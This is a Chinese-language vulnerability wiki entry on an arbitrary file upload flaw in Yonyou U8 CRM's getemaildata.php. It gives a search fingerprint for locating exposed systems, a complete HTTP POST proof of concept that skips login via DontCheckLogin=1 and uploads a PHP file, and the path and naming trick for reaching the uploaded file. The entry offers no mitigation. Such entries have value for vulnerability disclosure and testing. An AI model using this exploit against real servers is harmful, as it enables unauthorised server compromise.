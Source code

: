# 用友 U8 CRM客户关系管理系统 getemaildata.php 任意文件上传漏洞

## 漏洞描述

用友 U8 CRM客户关系管理系统 getemaildata.php 文件存在任意文件上传漏洞，攻击者通过漏洞可以获取到服务器权限，攻击服务器

## 漏洞影响

<a-checkbox checked>用友 U8 CRM客户关系管理系统</a-checkbox></br>

## 网络测绘

<a-checkbox checked>web.body="用友U8CRM"</a-checkbox></br>

## 漏洞复现

登陆页面

![img](/assets/PeiQi-Wiki/img/1680525831431-a143a41a-f89e-4132-913f-0f0e8858628c.png)

验证POC

```plain
POST /ajax/getemaildata.php?DontCheckLogin=1 HTTP/1.1
Host:
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarykS5RKgl8t3nwInMQ

------WebKitFormBoundarykS5RKgl8t3nwInMQ
Content-Disposition: form-data; name="file"; filename="test.php "
Content-Type: text/plain

<?php phpinfo();?>

------WebKitFormBoundarykS5RKgl8t3nwInMQ
```

![img](/assets/PeiQi-Wiki/img/1691569542684-fcd74f60-b580-4ce4-8d2e-a914e213fbd4.png)

文件名需要十六进制减一

```plain
/tmpfile/updD24D.tmp.php
```